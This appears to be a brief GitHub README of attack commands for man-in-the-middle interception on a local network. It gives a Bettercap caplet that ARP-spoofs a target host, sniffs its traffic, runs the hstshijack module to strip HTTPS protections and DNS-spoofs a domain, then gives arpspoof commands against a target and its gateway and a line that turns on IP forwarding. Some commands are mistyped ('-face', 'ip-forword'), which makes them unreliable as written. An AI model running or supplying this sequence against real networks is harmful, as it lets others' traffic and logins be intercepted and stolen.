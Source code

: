 # spoofing-tip-s-and-command
# ARP Spoof using Bettercap
to run the spoof.cap file you need to add only target ip 
then run this command 
# bettercap -iface eth0 -caplet spoof.cap

bettercap -face eth0,
net.probe on,
set arp.spoof.fullduplex true,
set arp.spoof.targets 192.168.1.13,
arp.spoof on,
set net.sniff.local true,
net.sniff on,
caplets.show,
hstshijack/hstshijack,
(set dns.spoof.domains  xyz.com,*.xyz.com  )
dns.spoof  on,


# arp spoofing
# arpspoof -i eth0 -t target-ip  router-gateway-ip
# arpspoof -i eth0 -t router-gateway-ip  target-ip

in case internet is not working use this command

# echo 1>/proc/sys/net/ipv4/ip-forword
